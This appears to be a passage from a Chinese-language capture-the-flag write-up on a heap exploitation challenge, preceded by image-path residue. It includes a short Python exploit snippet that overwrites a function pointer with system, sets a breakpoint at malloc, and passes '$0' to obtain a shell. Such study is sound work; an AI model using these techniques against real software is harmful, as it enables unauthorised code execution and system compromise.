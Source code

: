 ![upload successful](/images/pasted-102.png)



解决方法1：思考malloc的时候的size能不能控制

ida查看 由于size输入的是整型，我们不能直接修改为/bin/sh，理论上是不可以的。


![upload successful](/images/pasted-103.png)

验证脚本如下

```python
py = ''
py+= 'a'*0x13 + p64(system) + '\n'  #原来的one_gadget 修改为system
edit(5,0x40,py)

debug(0x400AD2,0) #断点改为malloc的地址，如下

add(6,'$0') #即/bin/sh

```

![upload successful](/images/pasted-104.png)
